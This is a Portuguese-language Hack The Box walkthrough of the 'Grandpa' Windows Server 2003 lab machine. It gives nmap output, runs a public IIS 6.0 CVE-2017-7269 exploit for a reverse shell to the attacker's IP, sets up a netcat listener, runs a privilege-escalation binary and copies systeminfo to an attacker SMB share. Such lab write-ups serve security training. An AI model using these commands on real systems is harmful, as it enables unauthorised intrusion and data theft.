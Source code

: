 ```yaml
---
title:     "Hack The Box - Grandpa"
tags: [windows,easy,MS09-020,CVE-2009-1535]
categories: HackTheBox
---
```


![1.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-grandpa/1.jpg)

## Discovery

Iniciamos entao nossa enumeracao usando o nmap

```
┌─[✗]─[htb-an4kein☺parrot]─[/htb/grandpa]
└──╼ $sudo nmap -Pn -p- -sV -oN nmap/allports_tcp 10.10.10.14
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-25 18:43 UTC
Stats: 0:01:48 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 95.31% done; ETC: 18:45 (0:00:05 remaining)
Nmap scan report for 10.10.10.14
Host is up (0.072s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Percebemos que existe apenas a porta 80 aberta, rodando uma servidor WEB na versao bem velha 

## Exploitation
Lembro que na maquina [Granny](https://an4kein.github.io/hackthebox/2020/06/24/HTB-Granny/)  explorei uma versao identica, logo vou testar o exploit usado nela pra tentar obter exito.. 

***preference*** https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/blob/master/iis6%20reverse%20shell

Entao, executamos o exploit apos configurar nossa porta de preferencia para ficar escultando, eu escolhi a 53

`sudo python iis6-cve-2017-7269.py 10.10.10.14 80 10.10.14.36 53`

![2.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-grandpa/2.jpg)


## Privilege Escalation

Precisamo agora obter informacoes basicas do nosso alvo e assim continuar procurando um vetor de ataque para escalar o privilegio
Grupos, Permissoes, Arquiterura, Versao do sistema, etc.. sao informacoes necessarias para escalar.

![3.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-grandpa/3.jpg)

transfiro entao o output do `systeminfo` para meu localhost

![4.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-grandpa/4.jpg)

```

Host Name:                 GRANPA
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 6 Hours, 55 Minutes, 17 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x86 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              INTEL  - 6040000
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory:     1,023 MB
Available Physical Memory: 787 MB
Page File: Max Size:       2,470 MB
Page File: Available:      2,313 MB
Page File: In Use:         157 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: Q147222
Network Card(s):           N/A

```

Agora, usamos o Windows-Exploit-Suggester

`sudo python windows-exploit-suggester.py --database 2020-06-25-mssb.xls --systeminfo /htb/grandpa/systeminfo.txt -l`


## Install python-xlrd

Tive problemas com o **python-xlrd**

![5.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-grandpa/5.jpg)

Resolvendo esse problema:

Faca o download no repo, link abaixo:
[Download](https://salsa.debian.org/python-team/modules/python-xlrd)

Depois de fazer o download eh necessario instalar extrair.

`sudo unzip python-xlrd-debian-master.zip`

Feito isso, instale os requimentos necessarios

`sudo pip install -r requirements.txt`

Em seguida use o `setup.py` para terminar a instacao

`sudo python setup.py install`

## Find Exploits (Windows-Exploit-Suggester)

Depois de ter configurado as dependencias podemos entao executar o `windows-exploit-suggester.py`

`sudo python windows-exploit-suggester.py --database 2020-06-25-mssb.xls --systeminfo /htb/grandpa/systeminfo.txt -l`

![6.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-grandpa/6.jpg)

```
initiating winsploit version 3.3...
database file detected as xls or xlsx based on extension
attempting to read from the systeminfo input file
systeminfo input file read successfully (ascii)
querying database file for potential vulnerabilities
comparing the 1 hotfix(es) against the 356 potential bulletins(s) with a database of 137 known exploits
there are now 356 remaining vulns
searching for local exploits only
[E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
windows version identified as 'Windows 2003 SP2 32-bit'

MS15-051: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (3057191) - Important
  https://github.com/hfiref0x/CVE-2015-1701, Win32k Elevation of Privilege Vulnerability, PoC
  https://www.exploit-db.com/exploits/37367/ -- Windows ClientCopyImage Win32k Exploit, MSF

MS14-070: Vulnerability in TCP/IP Could Allow Elevation of Privilege (2989935) - Important
  http://www.exploit-db.com/exploits/35936/ -- Microsoft Windows Server 2003 SP2 - Privilege Escalation, PoC

MS14-068: Vulnerability in Kerberos Could Allow Elevation of Privilege (3011780) - Critical
  http://www.exploit-db.com/exploits/35474/ -- Windows Kerberos - Elevation of Privilege (MS14-068), PoC

MS14-062: Vulnerability in Message Queuing Service Could Allow Elevation of Privilege (2993254) - Important
  http://www.exploit-db.com/exploits/34112/ -- Microsoft Windows XP SP3 MQAC.sys - Arbitrary Write Privilege Escalation, PoC
  http://www.exploit-db.com/exploits/34982/ -- Microsoft Bluetooth Personal Area Networking (BthPan.sys) Privilege Escalation

MS14-040: Vulnerability in Ancillary Function Driver (AFD) Could Allow Elevation of Privilege (2975684) - Important
  https://www.exploit-db.com/exploits/39525/ -- Microsoft Windows 7 x64 - afd.sys Privilege Escalation (MS14-040), PoC
  https://www.exploit-db.com/exploits/39446/ -- Microsoft Windows - afd.sys Dangling Pointer Privilege Escalation (MS14-040), PoC

MS14-026: Vulnerability in .NET Framework Could Allow Elevation of Privilege (2958732) - Important
  http://www.exploit-db.com/exploits/35280/, -- .NET Remoting Services Remote Command Execution, PoC

MS14-002: Vulnerability in Windows Kernel Could Allow Elevation of Privilege (2914368) - Important
MS11-080: Vulnerability in Ancillary Function Driver Could Allow Elevation of Privilege (2592799) - Important
MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
MS09-020: Vulnerabilities in Internet Information Services (IIS) Could Allow Elevation of Privilege (970483) - Important
done
```

Observe que a mesma vuln da [Granny](https://an4kein.github.io/hackthebox/2020/06/24/HTB-Granny/) foi encontrada, entao pra nao perder tempo vou utilizar a mesma exploracao

`sudo rlwrap nc -nlvp 53`

`.\IIS6.0.exe "C:\WINDOWS\Temp\reverse.exe"`


![7.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-grandpa/7.jpg)



## Rascunho

```
systeminfo >> \\10.10.14.36\tools\systeminfo.txt
sudo python /opt/impacket/examples/smbserver.py tools .

sudo python /usr/share/doc/python3-impacket/examples/smbserver.py tools .



```
